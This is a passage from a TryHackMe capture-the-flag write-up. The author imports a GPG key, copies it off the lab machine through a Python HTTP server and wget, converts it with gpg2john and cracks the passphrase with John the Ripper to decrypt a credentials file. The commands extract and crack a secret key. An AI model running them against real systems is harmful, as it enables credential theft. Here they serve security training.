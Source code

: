 So it looks like we need to decrypt the credentia.gpg file with the tryhackme.asc key.

`gpg --import tryhackme.asc`

```
gpg: key C6707170: secret key imported
gpg: /home/skyf*ck/.gnupg/trustdb.gpg: trustdb created
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

And trying to decrypt:

`gpg --decrypt credential.pgp`

```
You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
Enter passphrase:
```

Alright so we need a passphrase, let's get that.

I start up a phython http server on the THM machine so I can download the .asc file to my machine and then wget the file over to my machine:

`python3 -m http.server`

`wget $ip:8000/tryhackme.asc`

```
--2022-10-16 11:27:08--  http://10.10.43.109:8000/tryhackme.asc
Connecting to 10.10.43.109:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5144 (5.0K) [text/plain]
Saving to: ‘tryhackme.asc’

tryhackme.asc             100%[=====================================>]   5.02K  --.-KB/s    in 0s      

2022-10-16 11:27:08 (16.4 MB/s) - ‘tryhackme.asc’ saved [5144/5144]
```

Then I convert the tryhackme.asc file into a crackable format:

`gpg2john tryhackme.asc > hash`

And crack it with John the Ripper:

`john hash --wordlist=rockyou.txt`

